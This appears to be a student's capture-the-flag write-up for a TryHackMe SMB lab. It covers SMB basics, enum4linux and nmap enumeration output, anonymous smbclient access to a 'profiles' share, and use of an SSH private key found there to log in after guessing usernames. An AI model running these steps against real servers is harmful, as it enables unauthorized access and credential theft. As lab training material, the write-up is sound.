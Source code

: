Server Message Block
• A client-server communication protocol used for sharing access to files, printers, serial ports and other network resources. 
• Known as a response-request protocol.
   ◇ Transmits multiple messages between the client and server to establish a connection. 
• Clients connect over NetBIOS TCP/IP

Enumeration
• The process of gathering info on a targer to find potential attack.
   ◇ Usernames, passwords, network info, hostnames, app data, services, etc. 
• There are typically SMB share drives on a server that can be connected to for use of transferring files. 
• Can also be a great starting point for discovering sensitive data. 

Steps for enumeration
1. Enum4Linux: enumerate SMB shares on both win and linux suystems
   1)  enum4linux [options] ip
		TAG            FUNCTION
		-U             get userlist
		-M             get machine list
		-N             get namelist dump (different from -U and-M)
		-S             get sharelist
		-P             get password policy information
		-G             get group and member list
		-A             all of the above (full basic enumeration)

   2) enum4linux -A 10.10.157.118
    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Attempting to map shares on 10.10.157.118
//10.10.157.118/netlogon        [E] Can't understand response:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
//10.10.157.118/profiles        Mapping: OK, Listing: OK
//10.10.157.118/print$  Mapping: DENIED, Listing: N/A
//10.10.157.118/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Got domain/workgroup name: WORKGROUP
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 ======================================= 
|    OS information on 10.10.157.118    |
 ======================================= 
[+] Got OS info for 10.10.157.118 from smbclient: 
[+] Got OS info for 10.10.157.118 from srvinfo:
        POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

   3) Nmap
      1-  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo nmap -p- -A -sV -vv -oA nmap/ 10.10.157.118
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

      2- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT    STATE SERVICE     VERSION                                                                                        
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                   
| ssh-hostkey:                                                                                                           
|   2048 91:df:5c:7c:26:22:6e:90:23:a7:7d:fa:5c:e1:c2:52 (RSA)                                                           
|   256 86:57:f5:2a:f7:86:9c:cf:02:c1:ac:bc:34:90:6b:01 (ECDSA)                                                          
|_  256 81:e3:cc:e7:c9:3c:75:d7:fb:e0:86:a0:01:41:77:81 (ED25519)                                                        
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                    
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)                                                 
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

      3- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Host script results:          
|_clock-skew: mean: 0s, deviation: 1s, median: -1s                                                                       
|_nbstat: NetBIOS name: POLOSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                
| smb-os-discovery:           
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)                    
|   Computer name: polosmb                                  
|   NetBIOS computer name: POLOSMB\x00                      
|   Domain name: \x00         
|   FQDN: polosmb             
|_  System time: 2021-04-27T01:41:41+00:00                  
| smb-security-mode:          
|   account_used: guest                                     
|   authentication_level: user                              
|   challenge_response: supported                           
|_  message_signing: disabled (dangerous, but default)                                                                   
| smb2-security-mode:         
|   2.02:                     
|_    Message signing enabled but not required                                                                      
| smb2-time:                  
|   date: 2021-04-27T01:41:40                             
|_  start_date: N/A  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

      4- 

Exploitation
Although there are CVE's available that will allow one to gain RCE, we are more likely to encounter a situation where there's a misconfiguration in the system.

With this machine, we will be exploiting anonymous SMB share access. A common misconfiguration that can allow us to gain info that will lead to a shell. 

• Since we are trying to access an SMB share, we need a clinet to access resources on servers.
   ◇ SMBClinet
      ▪ Used because its part of the default samba suite. 
      ▪ $smbclient //IP/SHARE
      ▪ Followed by the tags:
			-U [name] : to specify the user
			-p [port] : to specify the port

         - smbclient //10.10.157.118/profiles
      ▪ Found id_rsa > copy that to local machine and chmod 600 into a .shh folder
      ▪ Creating username combinations for John Cactus
      ▪ ssh -i key.ssh username@ip
         - jc
         - johncactus
         - john.cactus jc
         - jcactus
         - j.cactus
         - john
               ⇒ cactus
               ⇒ ssh -i id_rsa cactus@10.10.157.118
               ⇒ THM{smb_is_fun_eh?}  